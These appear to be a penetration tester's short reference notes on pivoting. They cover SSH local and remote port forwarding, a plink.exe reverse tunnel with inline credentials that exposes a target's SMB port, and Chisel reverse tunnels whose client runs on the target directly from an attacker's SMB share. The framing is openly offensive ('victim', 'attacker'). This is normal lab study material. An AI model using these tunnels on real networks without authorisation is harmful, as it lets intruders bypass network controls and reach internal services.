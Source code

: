 ```yaml
---
title: Port Forwarding
updated: 2023-12-10 08:25:55Z
created: 2023-12-10 08:14:05Z
latitude: -34.92849890
longitude: 138.60074560
altitude: 0.0000
---
```


# Port Forwarding

## SSH
### SSH Local Port Forwarding
Used to forward a port from the client machine to the server machine

1. Run below command on cllent:
`ssh -N -L [IP_of_Interface(optional)]:[end_port]:[victim_ip]:[victim_port] [victim_user]@[victim_ip`]

eg to access remote httpd service can be accessed via local port 9999
`ssh -N -L 0.0.0.0:9999:10.10.1.4:80 victim@10.16.1.12`


### SSH Remote Port Forwarding
Used to forward traffic coming to a port on your server to your local computer, and then it is sent to a destination
Brings a port from a machine in the internal victim's network to your attacking machine:

`ssh -N -R [your_ssh_server_interface]:[your_port]:[victim_ip]:[victim_port_you_want_to_forward] [attacker_username]@[your_ssh_server_ip]`



## PLINK.EXE

`plink.exe -l root -pw toor -R 445:127.0.0.1:445 222 10.10.16.3`

## Chisel

1.  On Kali, run a reverse server to forward local ports to remote target  
    `sudo /home/kali/Tools/Chisel/chisel_1.9.1_linux_amd64 server -port 6666 --reverse`
    
2.  On target, create a tunnel to a port  
    `\\<kali>\myshare\chisel_windows_amd64.exe client <kali>:6666 R:910:127.0.0.1:910`